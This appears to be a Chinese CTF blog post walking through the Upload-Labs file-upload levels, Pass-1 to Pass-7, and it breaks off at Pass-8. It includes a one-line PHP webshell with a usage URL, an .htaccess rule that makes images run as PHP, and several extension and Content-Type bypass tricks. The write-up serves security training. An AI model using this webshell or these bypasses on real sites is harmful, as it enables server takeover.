 ```yaml
---
layout: post
title: "Uplode-Labs通关笔记"
date: 2019-4-8 20:49:43
author: co0ontty
categories: CTF WEB ALL
tags: CTF WEB ALL 
describe: 根据Uplode-Labs总结文件上传绕过技巧 
cover: 'https://i.loli.net/2019/04/08/5cab11a102167.png'
---
```


## 漏洞类型分析
![漏洞类型分析](https://i.loli.net/2019/04/08/5caafd2f23ed2.png)
## 漏洞类型判断    
![思路图](https://i.loli.net/2019/04/08/5caafa634c7f7.png)  
## 简单shell制作  
shell.php  
```php
<?php assert($_GET["cmd"])?>
```
使用方法：  
http://104.36.68.99/upload/shell.php?cmd=phpinfo();  
## Pass-1  （前端JS判断）
使用burp进行抓包直接上传webshell，发现在没有数据传输的情况下判定为不合规文件这说明在客户端通过JS进行判断   

[![屏幕快照 2019-04-08 16.58.50.png](https://i.loli.net/2019/04/08/5cab0e218624d.png)](https://i.loli.net/2019/04/08/5cab0e218624d.png)
[![屏幕快照 2019-04-08 16.59.04.png](https://i.loli.net/2019/04/08/5cab0e2234de6.png)](https://i.loli.net/2019/04/08/5cab0e2234de6.png)
[![屏幕快照 2019-04-08 16.59.06.png](https://i.loli.net/2019/04/08/5cab0e22e9b1e.png)](https://i.loli.net/2019/04/08/5cab0e22e9b1e.png)

将图中标红色的1.php改为1.png  

[![屏幕快照 2019-04-08 17.00.48.png](https://i.loli.net/2019/04/08/5cab0e1fc6cfd.png)](https://i.loli.net/2019/04/08/5cab0e1fc6cfd.png)

成功上传，执行shell   

[![屏幕快照 2019-04-08 17.12.25.png](https://i.loli.net/2019/04/08/5cab108972e22.png)](https://i.loli.net/2019/04/08/5cab108972e22.png)

### 大佬教的骚操作：
禁用本页JS，直接上传   
[![01-1.png](https://i.loli.net/2019/04/09/5cabf54fdd3de.png)](https://i.loli.net/2019/04/09/5cabf54fdd3de.png)  

## Pass-2  （服务器端端后缀判断）

使用burp抓包上传1.php，网页发送数据，burp获得流量，可以判断为服务器端响应。  
①将文件后缀修改为jpg后上传，再将1.png修改为1.php,成功上传    
②上传1.php，将包文件中的 Content-Type: 修改为 image/jpeg 成功上传   
最终达到的效果为：
[![屏幕快照 2019-04-09 08.52.37.png](https://i.loli.net/2019/04/09/5cabece6799fe.png)](https://i.loli.net/2019/04/09/5cabece6799fe.png)  
可以判断为服务器端检查文件类型  
## Pass-3（白名单-.phtml、.php5）
将1.php的后缀修改为jpg进行上传，抓包修改后缀上传提示错误   
[![屏幕快照 2019-04-09 09.02.22.png](https://i.loli.net/2019/04/09/5cabef6455bba.png)](https://i.loli.net/2019/04/09/5cabef6455bba.png)
证明服务器端检查后缀   
尝试上传任意后缀文件（php语言除了可以解析以php为后缀的文件，还可以解析phtml、php2，php3、php4、php5这些后缀的文件。） 

上传成功，证明使用的检查模式为黑名单检查。  

## Pass-4 （白名单-.htaccess)
本题目为JS前端判断后缀，服务端黑名单过滤数据。  
后端未过滤".htaccess"文件，上传".htaccess"文件，文件内容为
```php
<FilesMatch "03.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
该代码文件将03.jpg解析为php文件  
[![屏幕快照 2019-04-09 19.53.36.png](https://i.loli.net/2019/04/09/5cac893e518c1.png)](https://i.loli.net/2019/04/09/5cac893e518c1.png)
上传成功后，上传图片马03.jpg ，运行成功    
[![屏幕快照 2019-04-09 19.55.50.png](https://i.loli.net/2019/04/09/5cac8971e083b.png)](https://i.loli.net/2019/04/09/5cac8971e083b.png)  
## Pass-5 （未区分大小写）
Pass-4中存在以下代码：  
```php
 $file_ext = strtolower($file_ext); //转换为小写
```
而Pass-5中没有，说明Pass-5虽然过滤了所有的文件后缀，但是没有区分大小写。
上传shell.PHP即可绕过  
## Pass-6  
相比于第五关的过滤条件缺少了
```php
 $file_ext = trim($file_ext); //首尾去空
```
所以通过构造文件名+后缀+空格进行绕过，即"shell.php "
## Pass-7  
缺少"."过滤代码：
```php
$file_name = deldot($file_name);//删除文件名末尾的点
```
所以通过构造shell.php.进行绕过  
## Pass-8 

